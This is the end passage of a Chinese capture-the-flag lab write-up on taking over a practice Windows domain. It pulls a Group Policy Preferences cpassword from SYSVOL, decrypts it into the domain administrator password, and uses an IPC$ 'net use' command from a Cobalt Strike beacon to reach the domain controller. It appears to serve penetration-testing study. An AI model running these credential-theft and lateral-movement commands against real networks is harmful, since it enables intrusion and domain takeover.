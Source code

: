 ![](https://gitee.com/fuli009/images/raw/master/public/20220316101254.png)  
获取到groups.xml文件，打开获取到cpassword字段

    
    
    type \\redteam.red\SYSVOL\redteam.red\Policies\{B6805F5A-614E-4D32-9C2B-7AC2B6798080}\Machine\Preferences\Groups\Groups.xml

  
![]()  
利用gpprefdecrypt.py获取到域控密码“cpassword”字段，得到

    
    
    administrator/Admin12345

![](https://gitee.com/fuli009/images/raw/master/public/20220316101255.png)

## IPC横向访问域控获取flag

  * IPC横向IPC是专用管道，可以实现对远程计算机的访问，需要使用目标系统用户的账号密码，使用139、445端口
  * 回到weblogic被控主机cs执行以下命令

    
    
    shell net use \\10.10.10.8\ipc$ "Admin12345" /user:redteam.red\administrator

  
![](https://gitee.com/fuli009/images/raw/master/public/20220316101256.png)

  

  * 至此可以接管域控，以administrator权限执行命令。

  * 访问域控上的资源，获取 flag.txt  
![](https://gitee.com/fuli009/images/raw/master/public/20220316101257.png)

## 总结

域内提供了三台主机，还有一台ms17010的主机没有用上，当然目前的环境跟实战环境也是有一些出入，比如按个人习惯cs上线后肯定是先想办法看能不能开3389以及如何规避杀软，这里知道环境网络结构直接奔着目标去了，所以一切比较顺利。根据靶场描述，使用其他思路比如约束委派或者非约束委派都可接管域控,感兴趣的可以尝试下。另外再次感谢作者提供的靶场。

## 原文链接

从外网 Weblogic 打进内网，再到约束委派接管域控  
[https://mp.weixin.qq.com/s/dcYbIfLwN-
Aw0Z9XxQSGkQ](https://mp.weixin.qq.com/s?__biz=MzkxNDEwMDA4Mw==&mid=2247488950&idx=1&sn=48d93f1fac38eae99cc4e78474eb557c&scene=21#wechat_redirect)  
  

E

N

D

  

  